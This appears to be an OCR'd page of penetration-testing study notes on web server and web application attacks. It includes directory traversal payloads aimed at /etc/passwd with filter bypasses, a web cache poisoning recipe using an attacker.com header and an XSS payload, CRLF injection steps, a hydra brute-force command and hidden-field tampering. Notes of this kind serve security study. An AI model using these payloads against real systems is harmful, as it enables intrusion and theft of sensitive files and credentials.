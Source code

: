 • 

- ----------------------------------------------------------------------------------------------------------------- ---------------------------
- ----------------------------------------------------------------------------------------------------------------- ---------------------------
- Web Server Hacking:
- ----------------------------------------------------------------------------------------------------------------- ---------------------------
- Directory Traversal:
- We are able to access any sensitive files on the web server.
- Look the urls and GET requests Properly,if they are fetching some file 

from the web server.

- https://test.com/show.app?view=oldarchive.html HTTP/1.1
- localhost/dt\_lab/language.php?lang=en.txt
- https://test.com/show.app?view=../../../../../Windows/system.ini 

HTTP/1.1

- localhost/dt\_lab/language.php?lang=..\\..\\en.txt                          (\ --> for windows)
- BYpasses:
- ....//....//....//etc/passwd
- encode / double-encode
- ./../../../../etc/passwd%00.jpg

• 

- Directory Listing:(absolute path:/etc/passwd , relative path: ../../../../etc.passwd)
- index of /images
- This occurs due to Index file unavaible.Hence it list out all the file which are in its root directory.We cannot get out of the root directory.

• 

- CRLF Injection:
- Adding Headers in request.\r\n
- see if your user input is getting reflected in response.
- add your crlf payload at that input field.

• 

- web cache posining:
- look for unkeyed header & insert the payload in that header.
- Capture the caching url with burp,see if the content is getting cached by X-cache:Hit/miss header in response.
- Add X-Forwarded-Host: attacker.com in that caching request and see if attacker.com gets reflected in response.Success.
- Now add Our XSS Payload in that unkeyed Header and hit go.Done. • 
- SSH Bruteforce Attack:
- port 22 TCP encrypted
- Tools:-->nmap/metasploit

• 

- hydra -L Useraname.txt -P Password.txt ftp://10.10.10.10
- ----------------------------------------------------------------------------------------------------------------- ---------------------------
- ----------------------------------------------------------------------------------------------------------------- ---------------------------
- Hacking Web Applications
- ----------------------------------------------------------------------------------------------------------------- ---------------------------
- Hidden Field Manipulation/Parameter Tampering :
- Find "type"="hidden" by inspecting and Change the "value"= parameter to do successfull manipulation
